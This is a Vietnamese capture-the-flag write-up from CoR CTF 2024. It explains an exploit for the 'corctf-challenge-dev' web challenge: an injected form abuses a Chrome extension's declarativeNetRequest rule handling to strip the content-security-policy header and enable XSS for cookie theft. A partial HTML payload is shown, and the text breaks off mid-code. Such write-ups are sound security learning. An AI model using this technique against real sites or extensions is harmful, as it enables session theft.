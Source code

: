 ```yaml
---
title: "CoR CTF 2024"
description: "CoR CTF 2024"
summary: "CoR CTF 2024"
categories: ["Writeup"]
tags: ["Web"]
#externalUrl: ""
date: 2024-07-29
draft: false
authors:
  - Shin24
---
```


![image](https://github.com/user-attachments/assets/4782fee7-ae9b-427d-9d22-dff266ee2ee1)

Ở giải này mình làm được **3/6** bài, 3 bài còn lại có số solve lần lượt 2,1 và 0... Ở đây mình sẽ viết writeup ngắn cho 1 bài mình làm được và 3 bài chưa solve được nhằm ép mình ngồi học, bắt đầu nào

## corctf-challenge-dev

![image](https://github.com/user-attachments/assets/c3016b37-8ee7-4fa7-b453-9afa13ba789c)

Context của bài là ta có một bug XSS nhưng không thể bypass được CSP, ta sẽ lợi dụng một lỗi trong chrome extension của bài cho phép ta ghi dynamic rule vào `declarativenetrequest` nhằm xóa đi header CSP và thực hiện XSS

![image](https://github.com/user-attachments/assets/01d148a9-8e1f-466d-b0e6-60a2e2fe0d23)

`document.getElementById('block-options')` sẽ lấy phần tử đầu tiên với id `block-options` mà nó tìm thấy, do đó nếu extension đặt form ở đầu tag `body` thì ta chỉ việc đặt form của ta ở tag `head`, sau đó trigger button `submit-btn` là được. Rule của ta sẽ được merge vào `base_rule` và được register vào dynamic rules của `declarativenetrequest`

![image](https://github.com/user-attachments/assets/0e9a1bb0-e703-4ce9-8db6-e71a816ec8e3)

Hàm `serializeForm` như sau:

![image](https://github.com/user-attachments/assets/89029748-8609-45d3-a947-96987d384b3e)

Vậy chỉ cần form data của ta có key dạng `action.type` là sẽ có thể ghi đè được giá trị của `type`, đối với array thì là `a.b.0.c`. Tới đây ta có thể ghi một rule với action `modifyHeaders` (https://developer.chrome.com/docs/extensions/reference/api/declarativeNetRequest#header_modification) để xóa đi CSP header, từ đó ta có thể thực hiện XSS để lấy cookie. 

```html
<head></head>
<body>
</body>
<script>
    const payload = `
    <header>
    <div class="modal-content">
        <span class="close">&times;</span>
        <form name="aaa" id='block-options'>
            <input type='text' id='priority' name='priority' value='2'>
            <input type='text' id='1' name='action.type' value='modifyHeaders'>
            
            <input type='text' id='a2a' name='action.responseHeaders.0.header' value='content-security-policy'>
            <input type='text' id='a3a' name='action.responseHeaders.0.operation' value='remove'>
            <input type='text' id='a4a' name='condition.resourceTypes.0' value='main_frame'>

```